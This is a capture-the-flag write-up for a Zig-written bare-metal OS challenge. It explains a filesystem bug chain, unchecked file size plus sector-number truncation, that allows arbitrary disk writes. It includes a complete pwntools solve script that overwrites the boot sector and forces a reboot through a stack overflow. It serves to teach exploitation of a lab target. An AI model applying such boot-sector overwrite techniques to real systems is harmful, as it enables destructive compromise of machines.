 `
If you were hoping that this would be some kernel pwn I'm afraid that you'll be disappointed...
I wanted an excuse to write something in zig, so here we are!
`;

## Provided files
- dist.zip

## Intended

When run locally, it spits out some initialization text and then a menu:
```text noheader
[+] entering mbrsector
[+] switching to bootsector
[+] enter bootsector
[+] switching to extended bootloader
[+] enter extended bootloader
[+] boot args:
- drive: 0x80
- partition: partitions.Partition{ .attributes = 128, .start_chs = 257, .type = 
1, .end_chs = 16143, .start_lba = 63, .sectors = 945 }
- index: 0
[+] init disk
FAT FS TYPE: fat32
[+] switching to bootstrap
[+] enter bootstrap stagenter code32
leave code32
enter code64
stack bottom: 0000000000FE0000
stack top: 00000000013E0000
first availible sector: 945

0. print flag variable
1. input program
2. echo on
3. echo off
4. exec file
5. open file
6. seek file
7. make file
8. write file
```

The menu code belongs to `src/shell.zig` and gives us a few options.

- input program: executes an limited interpreted language that is not exploitable
- echo on/echo off: toggles shell echo
- exec file: feeds the current file's contents through the interpreter
- open file: opens a file handle
- seek file: seeks to a position within the current file
- make file: creates a file
- write file: writes data to the current file

The bugs in this challenge is are problems in the implementation of the filesystem in `src/fs.zig` and `src/disk.zig`:

### Arbitrary file size
The code that handles creating a file does not perform any sort of file size validation.
```rs noheader
pub fn new(name: []const u8, size: usize) !*File {
    var file = try manager.create(File);
    try file.init(name, size);
    try files.put(name, file);
    return file;
}
```

### Sector truncation
When writing to a sector, the write function accepts a relative sector of size `usize` but truncates the sector to a `u28`.
```rs noheader
fn _write(relative: usize, buffer: [*]align(1) u16, sectors: u8) !void {
    var status: u8 = wait();

    const absolute = @truncate(u28, partition.start + relative);
    term.printf("writing to {} sectors to logical block {}\r\n", .{ sectors, absolute });

    // -- snip --
}
```

The two bugs allow arbitrary access to the underlying disk. If a large enough file is supplied, one can seek to an offset that when converted to disk sectors is truncated to an arbitrary disk sector of an attacker's choosing.
```rs noheader
pub const File = struct {
    name: []const u8,
    cache: [512]u8,
    sector: usize,
    size: usize,
    offset: usize,

    const Self = @This();

    // -- snip --

    pub fn write(self: *Self, buffer: []u8) !void {
        if (self.offset + buffer.len >= self.size) {
            return std.os.AccessError.InputTooLong;
        }

        var result = self.offset + buffer.len;
        defer self.offset = result;
        defer self.reload() catch |err| die(err);

        try disk.write(self.sector + self.offset / 512, @ptrCast([*]align(1) u16, buffer)[0 .. buffer.len / 2]);
    }

    pub fn seek(self: *Self, offset: usize) !void {
        if (offset >= self.size) {
            return std.os.AccessError.InputTooLong;
        }
        self.offset = offset;
        try self.reload();
    }

    // -- snip --
};
```

Using this out of bounds write to the disk, we can write to any sector of the disk. Sector 0 of the disk always contains the bootloader that the processor boots from, so we can overwrite the old bootloader with a new bootloader that dumps the disk to search for the flag.

However once the old bootloader is overwritten, the processor still needs to reboot in order to execute the new bootloader. This is where the interpreter comes into play. The interpreter makes heavy use of recursion, which can quickly overflow the stack of the application. Due to the application running in ring 0, as soon as the stack overflows the whole thing triple faults and reboots, executing our new bootloader.

### Solution
```python filename="solve.py"
from pwn import *
from subprocess import run

run(["nasm", "-f", "bin", "-o", "boot.bin", "boot.asm"], check=True)

if args.HOST and args.PORT:
    p = remote(args.HOST, args.PORT)
else:
    p = remote("localhost", 5000)

""" wait for remote to catch up """
def wait():
    p.recvuntil(b"8. write file\n")

""" new bootloader """
bootcode = open("boot.bin", "rb").read()
assert len(bootcode) == 512
m28 = (1 << 28) - 1
""" read filesystem sector offset """
p.recvuntil(b"first availible sector: ")
offset = int(p.recvline().strip())
""" calculate offset to write to sector zero """
zero = (0 - 63 - offset & m28) * 512

log.info(f"offset: {offset}")

""" create massive file """
wait()
log.info(f"creating file")
p.send(b"7\ntmp\n9999999999999999\n")

""" seek to malicious offset """
wait()
log.info(f"seeking to offset")
p.send(b"6\n" + str(zero).encode() + b"\n")

""" write new bootloader """
wait()
log.info(f"writing new bootloader")
p.send(b"8\n512\n" + bootcode + b"\n")
p.recvuntil(b"writing to ")
count = int(p.recvuntil(b" ").strip(b" "))
p.recvuntil(b"sectors to logical block ")
sector = int(p.recvline().strip())
log.info(f"count: {count}, sector: {sector}")

""" disable echo to reduce output """
wait()
log.info(f"disabling echo")
p.send(b"3\n")

""" force the interpreter to recurse and overflow the stack """
wait()
log.info(f"rebooting remote")
p.send(b"1\n" + b"{" * 0x2000 + b"\n")

p.interactive(textonly=True)
```

## Unintendeds

### Leak flag using exec errors
Using the same giant file / arbitrary seek bug from before, it is possible to leak the flag character by character using the file exec option because it immediately errors and leaks a character. Lesson learned. Dont create helpful errors.

### iPXE command line tricks
If you overwrite the bootloader signature `0xAA55` and reboot, it fails to boot and allows access to the iPXE commandline. Once there it allows a dump of the disk which can be used to extract the flag.